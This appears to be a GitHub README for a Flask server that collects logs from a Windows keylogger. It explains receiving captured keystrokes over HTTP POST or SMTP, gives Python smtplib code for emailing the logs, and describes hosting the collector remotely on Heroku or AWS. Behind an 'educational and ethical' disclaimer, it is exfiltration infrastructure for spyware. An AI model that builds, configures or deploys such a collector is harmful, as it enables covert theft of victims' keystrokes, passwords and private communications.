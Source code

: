 # Keylogger Log Server

## Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or remote server deployment for receiving logs. The server is designed for educational and ethical auditing purposes in controlled environments with explicit permission.

## Features

Receives keylogger logs via HTTP POST or SMTP email.  

Stores logs in a local file (e.g., `server_logs.txt`) with timestamps.  

Lightweight and customizable for local or remote setups.  

Supports ethical use in cybersecurity labs.

## Requirements

**OS**: Any OS supporting Python (tested on Windows 11)

**Python**: Version 3.6 or higher

**Dependencies**: Flask (pip install flask), smtplib (standard library for SMTP)

**Network**: Local network access or internet for remote/SMTP setup

## Installation

1. Install Python 3.6+ from python.org.

2. Install Flask:
```bash
pip install flask
```

4. Clone or download the repository:

```
git clone
cd log-server
```




5. Ensure the keylogger is configured to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or an email address for SMTP.


## Usage

1. Run the Flask server:
```bash
python log_server.py
```


3. The server starts at http://127.0.0.1:5000 (or a specified IP like 192.168.1.3:5000).

4. Logs are received at the /log endpoint (HTTP POST) or via email (SMTP) and saved to server_logs.txt.

5. Stop the server with Ctrl+C.


## Customization
**Local Server**

1. Default setup runs locally:
```bash
python log_server.py
```


3. Update the keylogger’s URL to match the server’s IP/port (e.g., http://192.168.1.3:5000/log).


**SMTP Email Transmission**

1. Modify log_server.py to send logs via email using smtplib:
```python
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)
---
```

2. Generate an app-specific password from your email provider (e.g., Gmail’s 2-Step Verification settings).

3. Configure the keylogger to call send_email with log data and a recipient email, or have the server forward POST requests as emails.


## Remote Server Deployment

1. Deploy to a cloud platform (e.g., Heroku, AWS EC2):

**Heroku:**

1. Create a Heroku app: heroku create your-app-name.

2. Push the code: git push heroku main.

3. Set dynamic port in log_server.py:
```python
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)
---
```

5. Update the keylogger’s URL to the remote server’s address.


## Considerations

Do not store or transmit sensitive data without encryption.

## Challenges Overcome

1. Resolved networking issues for stable HTTP/SMTP log transmission.
2. Configured Flask for reliable POST request handling.
3. Managed log storage to prevent data loss.
4. Overcame SMTP authentication and remote deployment challenges.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
